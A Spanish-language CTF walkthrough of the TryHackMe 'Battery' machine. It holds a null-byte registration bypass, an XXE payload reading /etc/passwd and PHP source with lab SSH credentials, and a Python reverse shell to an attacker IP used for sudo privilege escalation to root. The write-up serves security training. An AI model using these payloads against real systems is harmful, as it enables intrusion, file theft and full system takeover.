



# Battery

En esta maquina tendremos que hacer uso de nuestras habilidades de explotación para podernos registrar con un usuario que es administrador haciendo uso de null byte para bypassear el registrer, para luego explotar un XXE para leer archivos del servidor para obtener credenciales de un archivo `.php` y así iniciar sesión por el servicio ssh, luego de realizar la intrusion tendremos que secuestrar un archivo en Python y ingresar nuestro código malicioso para obtener una Shell como el usuario root.


* Link [battery](https://tryhackme.com/room/battery)
* Created by  [Th3lazykid](https://tryhackme.com/p/Th3lazykid) and [golith3r00t](https://tryhackme.com/p/golith3r00t)

## Walkthrough

***

### Enumeración

Iniciamos haciendo un escaneo de todos los puertos para obtener los puertos abiertos.

```php
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.243.60 -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Encontramos dos puertos que están abiertos que son `22` y `80` de los cuales tendremos que enumerar los servicios y versiones.

```php
❯ nmap -p22,80 -sC -sV -Pn -vvv -n 10.10.243.60 -oN servicesScan
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 14:6b:67:4c:1e:89:eb:cd:47:a2:40:6f:5f:5c:8c:c2 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAPe2PVDHBBlUCEtHNVxjToY/muZpZ4hrISDM7fuGOkh/Lp9gAwpEh24Y/u197WBDTihDJsDZJqrJEJSWbpiZgReyh1LtJTt3ag8GrUUDJCNx6lLUIWR5iukdpF7A2EvV4gFn7PqbmJmeeQRtB+vZJSp6VcjEG0wYOcRw2Z6N6ho3AAAAFQCg45+RiUGvOP0QLD6PPtrMfuzdQQAAAIEAxCPXZB4BiX72mJkKcVJPkqBkL3t+KkkbDCtICWi3d88rOqPAD3yRTKEsASHqSYfs6PrKBd50tVYgeL+ss9bP8liojOI7nP0WQzY2Zz+lfPa+d0uzGPcUk0Wg3EyLLrZXipUg0zhPjcXtxW9+/H1YlnIFoz8i/WWJCVaUTIR3JOoAAACBAMJ7OenvwoThUw9ynqpSoTPKYzYlM6OozdgU9d7R4XXgFXXLXrlL0Fb+w7TT4PwCQO1xJcWp5xJHi9QmXnkTvi386RQJRJyI9l5kM3E2TRWCpMMQVHya5L6PfWKf08RYGp0r3QkQKsG1WlvMxzLCRsnaVBqCLasgcabxY7w6e2EM
|   2048 66:42:f7:91:e4:7b:c6:7e:47:17:c6:27:a7:bc:6e:73 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkDLTds2sLmn9AZ0KAl70Fu5gfx5T6MDJehrsCzWR3nIVczHLHFVP+jXDzCcB075jjXbb+6IYFOdJiqgnv6SFxk85kttdvGs/dnmJ9/btJMgqJI0agbWvMYlXrOSN26Db3ziUGrddEjTT74Z1kokg8d7uzutsfZjxxCn0q75NDfDpNNMLlstOEfMX/HtOUaLQ47IeuSpaQoUkNkHF2SGoTTpbC+avzcCNHRIZEwQ6HdA3vz1OY6TnpAk8Gu6st9XoDGblGt7xv1vyt0qUdIYaKib8ZJQyj1vb+SJx6dCljix4yDX+hbtyKn08/tRfNeRhVSIIymOTxSGzBru2mUiO5
|   256 a8:6a:92:ca:12:af:85:42:e4:9c:2b:0e:b5:fb:a8:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCYHRWUDqeSQgon8sLFyvLMQygCx01yXZR6kxiT/DnZU+3x6QmTUir0HaiwM/n3aAV7eGigds0GPBEVpmnw6iu4=
|   256 62:e4:a3:f6:c6:19:ad:30:0a:30:a1:eb:4a:d3:12:d3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILW7vyhbG1WLLhSEDM0dPxFisUrf7jXiYWNSTqw6Exri
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Puerto 80

Teniendo abierto el puerto `80` vamos a enumerar los directorios del sitio.

```php
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u 10.10.86.232 -x txt,php,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.232
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 283]
/register.php         (Status: 200) [Size: 715]
/admin.php            (Status: 200) [Size: 663]
/scripts              (Status: 301) [Size: 313] [--> http://10.10.86.232/scripts/]
/forms.php            (Status: 200) [Size: 2334]
/report               (Status: 200) [Size: 16912]
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/acc.php              (Status: 200) [Size: 1104]
/with.php             (Status: 302) [Size: 1259] [--> admin.php]
/tra.php              (Status: 302) [Size: 1399] [--> admin.php]
```

Encontramos un binario que es `report`, con ayuda de ghidra tendremos el código fuente de dicho binario

**Binario report**

* Función `main`

```c
undefined8 main(void)
{
  int iVar1;
  int local_8c;
  char local_88 [32];
  char local_68 [32];
  undefined local_48 [32];
  undefined local_28 [32];
  
  local_8c = 0;
  puts("\n\n\n");
  puts("Welcome To ABC DEF Bank Managemet System!\n\n");
  printf("UserName : ");
  __isoc99_scanf(&DAT_001021f0,local_68);
  puts("\n");
  printf("Password : ");
  __isoc99_scanf(&DAT_001021f0,local_88);
  iVar1 = strcmp(local_68,"guest");
  if ((iVar1 == 0) && (iVar1 = strcmp(local_88,"guest"), iVar1 == 0)) {
    options();
    while (local_8c != 5) {
      printf("Your Choice : ");
      __isoc99_scanf(&DAT_00102216,&local_8c);
      if (local_8c == 1) {
        users();
      }
      else if (local_8c == 4) {
        printf("email : ");
        __isoc99_scanf(&DAT_001021f0,local_28);
        puts("\n");
        printf("Password : ");
        __isoc99_scanf(&DAT_001021f0,local_48);
        update(local_28,local_48);
      }
      else if ((local_8c == 3) || (local_8c == 2)) {
        puts("not available for guest account\n");
        system("clear");
        options();
      }
      else {
        puts("Wrong option\n");
        system("clear");
        options();
      }
    }
  }
  else {
    printf("Wrong username or password");
  }
  return 0;
```

* Función `options`

```c

void options(void)

{
  puts("Welcome Guest\n");
  puts("===================Available Options==============\n");
  puts("1. Check users");
  puts("2. Add user");
  puts("3. Delete user");
  puts("4. change password");
  puts("5. Exit");
  return;
}
```

* Funcion `Users`

```c

void users(void)

{
  system("clear");
  puts("\n===============List of active users================");
  puts("support@bank.a");
  puts("contact@bank.a");
  puts("cyber@bank.a");
  puts("admins@bank.a");
  puts("sam@bank.a");
  puts("admin0@bank.a");
  puts("super_user@bank.a");
  puts("admin@bank.a");
  puts("control_admin@bank.a");
  puts("it_admin@bank.a\n\n");
  options();
  return;
}
```

* Función `update`.

```c

void update(char *param_1)

{
  int iVar1;
  
  iVar1 = strcmp(param_1,"admin@bank.a");
  if (iVar1 == 0) {
    puts("Password Updated Successfully!\n");
    options();
  }
  else {
    puts("Sorry you can\'t update the password\n");
    options();
  }
  return;
}

```

Viendo el código fuente del binario, lo que se puede rescatar son la lista de correos que podrían servirnos de algo.

**Register**

Nos dirigimos a [10.10.86.232/admin.php](2023-12-25-Battery.md) y nos muestra un panel de login, luego nos dirigimos a [10.10.86.232/register.php](2023-12-25-Battery.md) para registrarnos con las credenciales `test1: test1` . Una vez registrados podemos iniciar sesión y podemos ver un menú.


### Explotación

El que nos interesa es `My Account` que con nuestro usuario actual no podemos obtener acceso.


Recordemos un usuario que era `admin@bank.a` que podemos registrarlo, pero al querer registrarlo nos dará un error porque ya esta registrado o bueno que no nos deja regístralo.



Para registrarnos con el usuario `admin@bank.a` interceptaremos con burpSuite, en este caso haremos uso de un [null byte](https://www.thehacker.recipes/web/inputs/null-byte-injection)

```php
uname=admin%40bank.a%00&bank=ABC&password=admin%40bank.a&btn=Register+me%21
```

Haciendo uso de null byte podemos registrarnos, `Registered successfully` es el mensaje que nos confirma que se registro con exito.



En la pestaña de `command` tenemos un formulario que hace uso de XML del cual interceptando con burp suite podemos abusar de este para enumerar el servidor.


#### XXE

Interceptamos con burp Suite y efectivamente tenemos un formulario xml



En este caso explotaremos un [XXE](https://github.com/payloadbox/xxe-injection-payload-list) y leeremos algunos archivos.

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
	<root>
		<name>
			10
		</name>
		<search>
			&ent;
		</search>
	</root>
```

En este caso leemos el archivo `/etc/passwd` y podemos leerla.


* Archivo `/etc/passwd`

```php
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
cyber:x:1000:1000:cyber,,,:/home/cyber:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
yash:x:1002:1002:,,,:/home/yash:/bin/bash
```

Ahora que podemos leer los archivo del sistema podemos leer los archivos `.php` que encontramos al inicio, enumerando cada uno de los archivos.

```php
/register.php
/admin.php
/forms.php
/logout.php
/acc.php
/with.php
/tra.php
```

El archivo `.php` que nos interesa es `acc.php` donde encontraremos credenciales validas para iniciar sesión por ssh.

```php
<!DOCTYPE html>
<html>
<head>
<style>

form
{

border: 2px solid black;
outline: #4CAF50 solid 3px;
margin: auto;
width:180px;
padding: 20px;
text-align: center;
}

ul {
list-style-type: none;
margin: 0;
padding: 0;
overflow: hidden;
background-color: #333;
}

li {
float: left;
border-right:1px solid #bbb;
}

li:last-child {
border-right: none;
}

li a {
display: block;
color: white;
text-align: center;
padding: 14px 16px;
text-decoration: none;

}

li a:hover:not(.active) {
background-color: #111;

}

.active {
background-color: blue;
}

</style>
</head>
<body>

<ul>
<li><a href="dashboard.php">Dashboard</a></li>
<li><a href="with.php">Withdraw Money</a></li>
<li><a href="depo.php">Deposit Money</a></li>
<li><a href="tra.php">Transfer Money</a></li>
<li><a href="acc.php">My Account</a></li>
<li><a href="forms.php">command</a></li>
<li><a href="logout.php">Logout</a></li>
<li style="float:right"><a href="contact.php">Contact Us</a></li>
</ul><br><br><br><br>
</body>
</html>

<script>alert('Only Admins can access this page!')</script><!DOCTYPE html>

<html>
<head>
<style>
form
	{
	border: 2px solid black;
	outline: #4CAF50 solid 3px;
	margin: auto;
	width:180px;
	padding: 20px;
	text-align: center;
	}

ul {
list-style-type: none;
margin: 0;
padding: 0;
overflow: hidden;
background-color: #333;
}

li {
float: left;
border-right:1px solid #bbb;
} 

li:last-child {
border-right: none;
}

li a {
display: block;
color: white;
text-align: center;
padding: 14px 16px;
text-decoration: none;
}

li a:hover:not(.active) {
background-color: #111;
}

.active {
background-color: blue;
}

</style>
</head>
<body>

<ul>
<li><a href="dashboard.php">Dashboard</a></li>
<li><a href="with.php">Withdraw Money</a></li>
<li><a href="depo.php">Deposit Money</a></li>
<li><a href="tra.php">Transfer Money</a></li>
<li><a href="acc.php">My Account</a></li>
<li><a href="forms.php">command</a></li>
<li><a href="logout.php">Logout</a></li>
<li style="float:right"><a href="contact.php">Contact Us</a></li>
</ul><br><br><br><br>

</body>
</html>

<?php
session_start();
if(isset($_SESSION['favcolor']) and $_SESSION['favcolor']==="admin@bank.a")
{
echo "<h3 style='text-align:center;'>Weclome to Account control panel</h3>";
echo "<form method='POST'>";
echo "<input type='text' placeholder='Account number' name='acno'>";
echo "<br><br><br>";
echo "<input type='text' placeholder='Message' name='msg'>";
echo "<input type='submit' value='Send' name='btn'>";
echo "</form>";

//MY CREDS :- cyber:super#secure&password!

if(isset($_POST['btn']))
{
$ms=$_POST['msg'];
echo "ms:".$ms;
if($ms==="id")
{
system($ms);
}
else if($ms==="whoami")
{
system($ms);
}
else
{
echo "<script>alert('RCE Detected!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
}
}

else
{
echo "<script>alert('Only Admins can access this page!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}

?>
```

Las credenciales que encontraremos son :

```php
cyber: super#secure&password!
```

### Escalada de privilegios

#### Usuario : Cyber

Haciendo uso de las credenciales que se encontró podemos iniciar sesión.

```php
❯ ssh cyber@10.10.186.152
The authenticity of host '10.10.186.152 (10.10.186.152)' can't be established.
ED25519 key fingerprint is SHA256:bTNXpvfykuLebPN3kSFZTMvEtACHZnk64YKhtu6tMKI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.186.152' (ED25519) to the list of known hosts.
cyber@10.10.186.152's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Dec 24 09:17:48 IST 2023

  System load:  3.08              Processes:           101
  Usage of /:   2.4% of 68.28GB   Users logged in:     0
  Memory usage: 11%               IP address for eth0: 10.10.186.152
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Nov 17 17:02:47 2020 from 192.168.29.248
cyber@ubuntu:~$ whoami
cyber
```

Ahora iniciaremos con la enumeración de los privilegios del usuario para escalar privilegios. Enumerando con comando `sudo -l` podemos ver que tenemos permisos de ejecutar `/usr/bin/python3 /home/cyber/run.py` como usuario privilegiado.

```php
cyber@ubuntu:~$ sudo -l  
Matching Defaults entries for cyber on ubuntu:  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser cyber may run the following commands on ubuntu:  
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```

Vemos que tenemos el archivo `run.py` en nuestro directorio pero no tenemos permisos sobre este, pero al ser propietarios del directorio podemos eliminarlo.

```php
cyber@ubuntu:~$ ls -la
total 32
drwx------ 3 cyber cyber 4096 Nov 17  2020 .
drwxr-xr-x 4 root  root  4096 Nov 16  2020 ..
-rw------- 1 cyber cyber    0 Nov 17  2020 .bash_history
-rw-r--r-- 1 cyber cyber  220 Nov  9  2020 .bash_logout
-rw-r--r-- 1 cyber cyber 3637 Nov  9  2020 .bashrc
drwx------ 2 cyber cyber 4096 Nov  9  2020 .cache
-rw--w---- 1 cyber cyber   85 Nov 15  2020 flag1.txt
-rw-r--r-- 1 cyber cyber  675 Nov  9  2020 .profile
-rwx------ 1 root  root   349 Nov 15  2020 run.py
```

Una vez eliminado el archivo nos crearemos uno y pondremos el siguiente código en Python que nos permitirá obtener una Shell como el usuario root.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.115.196",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

#### Usuario : root

Ejecutamos el archivo con `sudo`.

```php
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
```

Antes de ejecutar el archivo con privilegio debemos de ponernos a la escucha con `ncat` en el puerto de nuestra preferencia y obtendremos nuestra shell como usuario root.

```php
❯ ncat -lvnp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.52.161:44351
# whoami
root
# 
```

¡VAMOS!

Happy hacking :)
